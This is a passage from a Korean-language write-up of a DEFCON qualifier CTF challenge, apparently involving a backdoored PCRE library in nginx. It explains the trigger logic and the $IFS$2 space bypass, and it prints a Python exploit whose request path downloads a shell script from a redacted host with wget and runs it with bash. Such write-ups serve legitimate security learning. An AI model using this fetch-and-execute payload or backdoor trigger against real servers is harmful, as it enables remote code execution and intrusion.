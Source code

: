 대충 해석하면 
  - 주석에 목표 서버 주소가 주어짐
  - `pcre_compile2` 패치: 해당 함수를 사용하는 프로세스가 nginx면 nginx 서버 문자열을 `ni/nginx/{date_s}` 로 치환
  - `pcre_exec` 패치: pcre 실행 시 subject 문자열이 `^/{alph}/([\\\$a-zA-Z0-9;:/.|]+)` 꼴인지 확인하고 맞으면 `system(subject)`
  - `date_s`는 날짜, `alph`는 날짜를 md5한 값 기반으로 만들어진다. 

여기서 아까 처음 제공된 `nginx.conf`를 살펴봐야 하는데, 
```nginx
location ~.*\.(php|php2|php3)$
{
    return 403;
}
```
`location`을 판별하는 과정에서 regex를 사용하기 때문에 여기서 백도어 트리거가 가능할 것이라고 합리적으로 추정할 수 있다. 

나머지 과정은 서버에 접속해서 응답 `Server` 헤더에서 `date_s` 값을 얻고 현재 날짜를 역산하여 `alph` 값을 알아내고 Path 경로에 regex를 통과하는 원하는 코드를 만들어서 실행하면 된다. 
여기서 공백 우회가 약간 어려웠는데, 나는 `$IFS$2`를 이용하여 우회했다. (Credit @timmy)

최종 코드는 다음과 같다. 
```python
import requests

r = requests.get('http://chiptunegeek.shellweplayaga.me:194/wpMI7xlCLtiqOk3bzUEfs1TQNVynGB4ASRFcDJ0KYPXmHv2o65gWuZ89djareh/cd$IFS$2/tmp;wget$IFS$2[redacted]:8080/abcd56.sh;bash$IFS$2abcd56.sh;', headers={
    'Ticket': 'ticket{[redacted]}',
    'User-Agent': 'curl/7.68.0'
})

print(r.text, r.headers, r.request.url)
```

### deenzone

이번 DEFCON 예선의 특징은 열린 문제가 한 팀이라도 풀어야 다른 문제가 열린다는 점[^2]이었다. deenzone 문제는 3번째로 열렸는데 MMM이 풀기까지 11시간이 걸렸다. 그래서 11시간 동안 다른 문제가 하나도 열리지 않아 대부분의 팀들이 이 문제를 계속 잡고 있었을 것이라 생각된다. 우리 팀은 36시간 들여 결국 이 문제를 풀어냈다. 

![deenzone이 풀리지 않았다면..?](defcon-discord-1.png)


[^1]: https://boehs.org/node/everything-i-know-about-the-xz-backdoor
[^2]: 원래 그랬는지는 잘 모르겠다. 